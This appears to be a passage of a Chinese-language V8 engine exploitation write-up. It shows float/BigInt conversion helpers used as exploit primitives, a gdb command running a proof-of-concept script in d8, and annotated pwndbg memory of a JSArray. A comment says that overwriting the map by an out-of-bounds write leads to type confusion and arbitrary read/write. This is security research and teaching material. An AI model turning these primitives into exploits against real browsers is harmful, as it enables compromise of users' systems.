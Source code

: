 事实上 V8 内存中浮点数类型是直接存储并且可以直接转换的（其他类型往往是作为 JSObject 被存储），这也是为什么这里选择了浮点数类型的元素填充数组，以下是转换函数：

```js
var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
function f2i(f) {
    float64[0] = f;
    return bigUint64[0];
}
function i2f(i) {
    bigUint64[0] = i;
    return float64[0];
}
function hex(i) {
    return "0x" + i.toString(16).padStart(16, "0");
}

function dump64(arr, length){
    for (var i = 0; i < length; i++) {
        print("\033[1;33;1m[DEBUG] " + i + "\t" + hex(f2i(arr[i])) + "\033[0m");
    }
}
```

接下来研究 Array 对象在 V8 内存中的表现，运行 [`poc.js`](src/poc.js) 中 `leak_0`函数，使用下面命令进入 gdb 中运行：

```sh
gdb ./executable_d8/d8 -ex "set args --max-heap-size 1024 --expose-gc --allow-natives-syntax ./poc.js" -ex "r"
# 以下为输出
# ...
[STEP 0] Memory leak.
0x09127c1d1081 <JSArray[8]>
```

来到断点前，发现用 `%DebugPrint()` 输出的 Array 地址末位是 1，这在 V8 中表明这是一个 JSObject，其真正指向的地址需要在此基础上减一，使用 `telescope` 查看具体内存情况：

```sh
pwndbg> telescope 0x09127c1d1080 16
00:0000│  0x9127c1d1080 —▸ 0x3917fd903dd1 ◂— 0x4000011f37c6811      # map，决定了如何访问该 JSObject，
                                                                    # 若能通过 oob 修改 map 可以导致类型混淆进一步导致任意地址读写
01:0008│  0x9127c1d1088 —▸ 0x11f37c681309 ◂— 0x11f37c6812           # prototype，指向 prototype 数组
02:0010│  0x9127c1d1090 —▸ 0x9127c1d10b1 ◂— 0x11f37c6821            # elements对象，注意观察可以发现就紧贴着这个 Array 对象
03:0018│  0x9127c1d1098 ◂— 0x800000000                              # length，现在是 8
04:0020│  0x9127c1d10a0 —▸ 0x11f37c6815c9 ◂— 0x2000011f37c6811      # properties
05:0028│  0x9127c1d10a8 ◂— 0xbad0cafedeadbeef
06:0030│  0x9127c1d10b0 —▸ 0x11f37c682161 ◂— 0x11f37c6811           # 上面的 elements 就指向这里
07:0038│  0x9127c1d10b8 ◂— 0x800000000                              # length
08:0040│  0x9127c1d10c0 ◂— 0xbad0cafedeadbeef                       # raw data，存放的就是原始数据
... ↓     7 skipped
```
